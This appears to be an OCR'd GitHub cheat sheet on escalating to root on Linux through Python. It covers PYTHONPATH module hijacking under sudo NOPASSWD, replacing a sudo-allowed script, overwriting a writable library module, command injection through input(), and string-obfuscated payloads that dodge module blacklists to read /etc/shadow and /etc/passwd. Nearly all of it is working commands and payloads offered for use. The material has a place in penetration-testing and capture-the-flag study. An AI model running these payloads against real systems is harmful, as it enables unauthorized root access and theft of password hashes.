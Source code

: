 ### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!

# SUDO PRIVILEGE ESCALATION

#### 1) NOPASSWD: /usr/bin/python /home/USER/script.py

#### 2) If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

#### rm -rf /home/USER/script.py

#### touch /home/USER/script.py

#### 3) Insert payload (import os;os.system('/bin/bash')

#### 4) GGEZ

# MODULE OVERRIDING 

#### If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.

#### 1) First, check what modules the Python script uses.

#### 2) find / -name "random.py" 2>/dev/null

#### 3) ls -la /usr/lib/python3.6/random.py

#### 4) If we have write permissions on the file, we can inject our own malicious code for privesc (import os; os.system('/bin/bash')

#### 5) Execute for root shell ;)

# OS COMMANDS IN INPUT()

#### 1) If the python executable asks for input, you can try to enter OS commands like:

#### 2) Input: __import__('os').system('id')

# BLACKLISTED PYTHON MODULES

### Examples: 

#### eval, exec, import, open, os, read, system, write

#### Bypass techniques: String obfuscation

#### Payload: print(globals())
#### print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))
#### __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')

#### Bypass techniques: Input

#### If the "eval" or "exec" modules are accepted, we can input arbitrary code.

#### eval(input()) or exec(input())

#### print(open("/etc/passwd", "r").read())
